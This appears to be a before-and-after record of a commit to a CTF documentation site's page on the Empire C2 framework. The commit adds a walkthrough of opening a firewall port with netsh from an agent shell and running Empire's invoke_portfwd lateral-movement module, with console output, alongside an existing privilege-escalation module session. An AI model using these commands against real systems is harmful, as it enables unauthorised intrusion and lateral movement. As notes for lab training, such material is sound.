

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/malware/c2/05-empire.md, in a window 1280 px wide and 1400 px high, scrolled down 2491 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; before the commit the page ends 3434 px from its top, so only the background shows below that.

Commit message:
add portfwd & git extractor

````diff
--- a/docs/malware/c2/05-empire.md
+++ b/docs/malware/c2/05-empire.md
@@ -141,6 +141,7 @@ Press Ctrl-C to quit.
 Use module :
 
 ```bash
+# privesc module
 (Empire: agents) > interact U1WEADC3
 (Empire: U1WEADC3) > usemodule powershell/privesc/sherlock
 [*] Set Agent to U1WEADC3
@@ -159,4 +160,27 @@ CVEID      : 2010-0232
 Link       : https://www.exploit-db.com/exploits/11199/
 VulnStatus : Not supported on 64-bit systems
 [...]
+
+# portfwd module
+# Goal : 10.200.81.150:21000 -> 10.200.81.100:80
+(Empire: 4R1BN8FV) > shell
+[*] Exit Shell Menu with Ctrl+C
+(4R1BN8FV) C:\Users\Administrator\Documents > netsh advfirewall firewall add rule name="portfwd" dir=in action=allow protocol=tcp localport=21000
+Ok.
+(Empire: agents) > usemodule powershell/lateral_movement/invoke_portfwd
+[...]
+(Empire: usemodule/powershell/lateral_movement/invoke_portfwd) > set Agent 4R1BN8FV
+[*] Set Agent to 4R1BN8FV
+(Empire: usemodule/powershell/lateral_movement/invoke_portfwd) > set Lhost 10.200.81.150
+[*] Set Lhost to 10.200.81.150
+(Empire: usemodule/powershell/lateral_movement/invoke_portfwd) > set Lport 21000
+[*] Set Lport to 21000
+(Empire: usemodule/powershell/lateral_movement/invoke_portfwd) > set Rhost 10.200.81.100
+[*] Set Rhost to 10.200.81.100
+(Empire: usemodule/powershell/lateral_movement/invoke_portfwd) > set Rport 80
+[*] Set Rport to 80
+(Empire: usemodule/powershell/lateral_movement/invoke_portfwd) > execute
+[*] Tasked 4R1BN8FV to run Task 7
+[*] Task 7 results received
+Job started: SM3A6W
 ```
````
Also changed, not shown: docs/pentest/tips.md (+29 -0 lines).
